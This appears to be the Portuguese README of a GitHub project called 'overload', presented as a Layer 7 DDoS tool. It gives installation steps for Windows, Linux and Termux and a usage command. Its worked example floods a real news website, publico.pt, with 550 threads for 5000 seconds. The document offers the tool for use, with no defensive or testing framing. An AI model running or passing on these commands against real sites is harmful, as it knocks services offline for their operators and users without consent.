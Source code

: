<h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

<p align="center">
  <img src="https://raw.githubusercontent.com/7zx/overload/main/img/logo.png" width="200" height="200">
</p>

# :computer: Janela Principal
<p align="center">
  <img src="https://raw.githubusercontent.com/tanjilk/overload/main/img/imgshow.png">
</p>

# 🌙 Instalação


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Instala Python 3.8 [aqui](https://www.python.org/downloads/release/python-38)
  - Abre o installer e clica em: `add python to PATH`
  - Faz download do overload <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">aqui</a>
  - Abre o cmd ou o PowerShell no diretório overload
  - Execute este comando: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/7zx/overload
cd overload/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/pl8g/overload
cd overload/
pip3 install -r requirements.txt
```

## ❓ Como Usar
O comando básico para poder executar o overload é o seguinte.  

```
python3 overload.py --time XXX --threads XXX --target [URL] --method HTTP
```

Exemplo:  

```
python3 overload.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
